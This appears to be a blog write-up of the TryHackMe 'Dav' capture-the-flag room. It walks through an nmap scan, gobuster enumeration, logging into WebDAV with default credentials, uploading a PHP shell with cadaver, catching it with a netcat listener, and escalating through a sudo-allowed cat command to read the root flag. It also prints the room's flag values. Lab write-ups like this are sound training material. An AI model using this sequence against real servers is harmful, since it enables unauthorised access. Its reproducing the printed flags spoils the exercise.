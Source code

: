 ```yaml
---
title: TryHackMe - Dav Writeup
description: 
categories:
 - tryhackme
tags: tryhackme, dav, sudo, shell, exploit, cadaver
---
```


You can find the machine there > [Dav](https://tryhackme.com/room/bsidesgtdav){:target="_blank"}

As always let's start with a nmap scan.

```
$ ip=10.10.242.239
$ nmap -sC -sV -oN initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-16 16:54 EEST
Nmap scan report for 10.10.242.239 (10.10.242.239)
Host is up (0.17s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

When we visit the webpage we can see the Apache2 default page, let's run gobuster.

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.txt
/webdav (Status: 401)
```

When we visit `/webdav` asks for credentials :

![](https://i.ibb.co/Dtc2Y2B/Screenshot-4.png)

WebDAV (Web Distributed Authoring and Versioning) allows users to update, upload, delete, move, copy files.

I searched for default credentials and i found :

```
user: wampp
pass: xampp
```

And we're in, now we can use `cadaver` (webdav client), to upload a shell.

```
$ cadaver http://$ip/webdav
Authentication required for webdav on server `10.10.67.29':
Username: wampp
Password: 
dav:/webdav/> put shell.php
Uploading shell.php to `/webdav/shell.php':
Progress: [=============================>] 100.0% of 5492 bytes succeeded.
dav:/webdav/> 
```

Now we can execute it and take shell.

```
$ nc -lvp 6666
listening on [any] 6666 ...
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$ 
```

Now privesc is silly, we can run `cat` as root :

```
www-data@ubuntu:/$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

So let's read the flags.

```
www-data@ubuntu:/home/merlin$ cat user.txt
cat user.txt
449b40fe93f78a938523b7e4dcd66d2a
www-data@ubuntu:/home/merlin$ sudo cat /root/root.txt
sudo cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
```

See you!
